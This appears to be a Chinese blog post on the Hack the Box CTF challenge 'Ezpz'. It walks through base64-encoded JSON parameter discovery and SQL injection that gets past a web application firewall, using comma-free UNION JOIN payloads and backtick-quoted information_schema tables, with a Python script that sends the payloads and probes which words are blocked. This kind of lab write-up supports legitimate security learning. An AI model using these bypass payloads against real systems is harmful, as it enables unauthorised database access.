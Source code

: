 ```yaml
---
title: "Hack the Box——Ezpz"
date: 2019-12-30T12:26:33+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```


## ezpz

访问HTB给的地址，进来就看想两个类似报错的东西。

![1](1.png)


### 尝试

这报错一看应该是少传了什么参数吧。试试加上个get参数

`?obj=1`

第一行报错没了，剩下第二行

![2](2.png)

试试再加一个参数

`?obj=1&ID=1`

错误并没有消失。因为第一个报错和第二个报错的内容不是很一样，我猜ID这个参数会不会是从POST传过去的。

![3](3.png)

报错以然存在，看来思路错了。

仔细读一下第二行报错`尝试从一个空对象获取ID属性`，是不是ID是附加在obj参数里的呢。

又尝试了几种payload

```

?obj=ID%3d1
?obj={"ID":"1"}
?obj=<ID>1</ID>
```

依然无效。

### 转机

因为对于burp的repeater不是很有把握，我决定用python写脚本再试试。

我发现打印的response.text里的最后一行居然有个hint的注释

![4](4.png)

出题人用了好多空行把它藏在了最后导致burp一眼看到。

![5](5.png)

既然他给了hint，那就试试吧。

把上面几个payload分别用base64编码。最后`?obj={"ID":"1"}`编码后得到payload为

`?obj=eyJJRCI6IjEifQ==`

这个参数请求后两个错误都消失了

### 真正的挑战

虽然错误没了，但是并没有出现flag，那说明关卡还要继续。因为每次都要base64编码一下参数用burp有点麻烦。顺手写了个脚本

```python   

def injection(payload):
    params = {
        "obj": base64.b64encode(payload.encode())
    }
    url = "http://docker.hackthebox.eu:30548/index.php"
    r = requests.get(url, params=params)
    soup = BeautifulSoup(r.text, 'html.parser')
    print(soup.body.text.strip())

if __name__ == '__main__':
    payload1 = '{"ID": "1"}'
    injection(payload1)
```

先试试sql注入`payload1 = '{"ID": "1\'"}'`，返回了新的错误信息，但是好像没太多有用的。

![6](6.png)

不过也说明了他这里是存在注入的吧。

### 开始测注入

#### 整型还是字符串型？

尝试`payload1 = '{"ID": "1 and 1=2 #"}'`返回正常结果

再尝试`payload = '{"ID": "1\' or 1=2 #"}'`,返回空。

这么看起来应该是第二个的and有效果，至于第一个为什么能返回正常结果我也不太清楚，下次用php试试。

这里应该就能猜出他这个`ID`是字符型。

#### 继续猜信息

尝试`payload1 = '{"ID": "-1\' union select 1, 2"}'`

返回的结果是`This request has been blocked by the server's application firewall`

看起来还有一层防火墙

稍微尝试了一下，有一些关键字和符号被过滤了，比如`where`, `limit`, `,`, `.`

因为没有逗号，所以改成用join来union

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select 2 )B );#"}'`

我想用user()和databse()函数来直接回显信息，不知道为什么报错了。

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select user() )B );#"}'`

加上length()函数有莫名其妙可以了。

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select length(user()) )B );#"}'`

user()函数返回长度14，盲猜是root@localhost，爆出来应该也没什么意义

然后随手猜了下database(), length = 4，数据库名为ezpz

#### 换方向

flag应该是藏在数据库的某个地方，先查查表名

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select table_name from information_schema.tables )B );#"}'`

但是这个也被拦截了，那么究竟拦截的是哪个字符串呢，写个函数判断一下

```python
def get_blocked_word(s):
    words = s.split(" ")
    for word in words:
        payload = '{{"ID": "-1\' union select * from ((select 1)A join (select \'{}\')B);#"}}'.format(word)
        print(word, injection(payload))

s = "select table_name from information_schema.columns"
get_blocked_word(s)
```

输出结果

```
select select
table_name table_name
from from
information_schema.tables This request has been blocked by the server's application firewall
```

再改改参数测一下，.asdtables并不会被拦截，那应该是.tables被拦截了

我记得mysql是可以给表名和数据库加上反引号"`"的，试了一下，成功的爆出了表名

![8](./8.png)

随手搜索一下`flag`，发现有张表叫`FlagTableUnguessableEzPZ`，那flag肯定在这张表里了。

`payload = '{"ID": "-1\' union select * from ( (select 1)A join ( select * from FlagTableUnguessableEzPZ )B );#"}'`

跑了一下，flag果然在这

![9](./9.png)

2020/2/17

寒假之前没做完的题，现在想起来才给它做了~




